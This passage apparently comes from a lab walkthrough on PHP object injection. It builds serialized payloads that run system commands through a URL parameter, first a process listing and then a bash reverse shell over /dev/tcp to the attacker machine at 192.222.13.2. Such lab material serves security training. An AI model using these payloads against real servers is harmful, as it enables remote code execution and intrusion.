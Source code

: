 ```php
<?php
class PHPObjectInjection {
    public $inject = "system('ps aux');";
}

$obj = new PHPObjectInjection();
var_dump(serialize($obj));
?>

```


Serialize the object:

Command:
```bash
php object.php
```

Serialized payload:
```bash
O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('ps aux');";}
```

Assign the generated value in the **r** parameter in the URL:



The process listing is retrieved, as shown in the above image.

Check the page source for a better-formatted response (press CTRL+U):


Step 10: Obtain a reverse shell.

Running single commands is good, but it requires us to generate the serialized value every time.

> Let's get a reverse shell to avoid that.

Before moving on to the payload generation part, retrieve the IP address of the attacker machine:

Command:
```bash
ip addr
```


The IP address of the attacker machine is 192.222.13.2


> [Note] The IP address is bound to change with every lab run. Kindly make sure to replace the IP address used in the payload. Otherwise, the payload wouldn't work.

Save the following code snippet as object.php

```php
<?php
class PHPObjectInjection {
    public $inject = "system('/bin/bash -c \'bash -i >& /dev/tcp/192.222.13.2/54321 0>&1\'');";
}

$obj = new PHPObjectInjection();
var_dump(serialize($obj));
?>

```

